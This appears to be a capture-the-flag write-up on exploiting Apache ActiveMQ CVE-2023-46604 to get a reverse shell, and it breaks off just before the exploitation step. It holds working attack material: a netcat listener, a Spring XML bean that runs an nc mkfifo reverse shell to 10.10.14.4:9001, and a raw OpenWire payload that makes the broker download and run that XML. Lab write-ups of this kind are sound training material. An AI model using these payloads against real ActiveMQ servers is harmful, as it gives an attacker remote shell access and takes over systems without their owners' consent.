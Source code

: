 ### Preparation

The Metasploit module `exploit/multi/misc/apache_activemq_rce_cve_2023_46604`
can be used to exploit this vulnerability, but it's not too hard to do manually.

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the 'nc mkfifo' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll use the HTML encoded version of this payload to create a `revshell.xml`
file:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2&gt;&amp;1|nc 10.10.14.4 9001 &gt;/tmp/f</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

I'll place it in `/workspace/server`, which is accessible over the Internet.

Therefore, according to
[this GitHub PoC](https://github.com/evkl1d/CVE-2023-46604), the payload that we
should send to the port `61616` in order to download and execute `revshell.xml`
is:

```
\x00\x00\x00q\x1f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x01\x00Borg.springframework.context.support.ClassPathXmlApplicationContext\x01\x00\x1ehttp://10.10.14.4/revshell.xml
```

I'll save it as the `COMMAND` shell variable.

### Exploitation

Let's send a request to Broker with this command.
